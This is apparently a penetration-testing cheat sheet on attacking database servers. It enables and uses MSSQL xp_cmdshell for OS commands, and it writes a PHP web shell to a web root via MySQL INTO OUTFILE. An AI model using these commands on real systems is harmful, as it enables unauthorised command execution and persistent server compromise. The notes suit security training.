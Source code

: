 #### Select all Data from Table "users"
```MySQL
SELECT * FROM users;
```

#### Select all Data from Table "users" using sqlcmd
```cmd.exe
SELECT * FROM users
GO
```

### Executing Commands

#### Executing Commands using xp_cmdshell
```cmd.exe
xp_cmdshell 'whoami'
GO
```

#### Enabling xp_cmdshell (if not already enabled)
```cmd.exe
EXECUTE sp_configure 'show advanced options', 1
GO
```
To allow advanced options to be changed

```cmd.exe
RECONFIGURE
GO
```
To update the currently configured value for advanced options

```cmd.exe
EXECUTE sp_configure 'xp_cmdshell', 1
GO
```
To enable the feature

```cmd.exe
RECONFIGURE
GO
```
To update the currently configured value for this feature

*There are also additional functionalities that can be used like the xp_regwrite command that is used to elevate privileges by creating new entries in the Windows registry*

### Writing Local Files

#### MySQL - Write Local File
```MySQL
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

#### MySQL - Secure File Privileges
```MySQL
show variables like "secure_file_priv";
```
If the `secure_file_priv` variable is empty, this means we can read and write data using MySQL

